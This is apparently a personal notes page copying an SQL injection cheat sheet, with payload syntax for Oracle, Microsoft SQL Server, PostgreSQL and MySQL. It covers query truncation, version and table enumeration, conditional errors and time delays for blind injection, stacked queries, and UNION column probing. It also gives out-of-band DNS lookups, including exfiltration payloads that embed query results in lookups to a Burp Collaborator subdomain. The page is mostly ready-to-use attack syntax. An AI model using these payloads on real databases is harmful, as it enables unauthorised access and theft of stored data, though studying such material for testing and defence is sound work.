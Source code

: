 ```yaml
---
id: ecm8gbfd442dpxbe5fggfzo
title: SQL_Injection
desc: ''
updated: 1677387299652
created: 1677380025812
---
```

## SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

### String concatenation
You can concatenate together multiple strings to make a single string.

```sql
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```sql
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```
### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
```sql
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```
### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
```sql
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```
### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```sql
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
### Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```sql
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```
> Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```sql
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```
### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
### DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
The following technique works on fully patched Oracle installations, but requires elevated privileges:
```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
```sql
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### UNION attacks
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.<br>
- The data types in each column must be compatible between the individual queries.
    
    #### Number of columns:
    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ... until error

    OR

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ... until success
    ```
    #### Probing for string data in columns:
    ```sql
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ... until successfully injected string value
    ```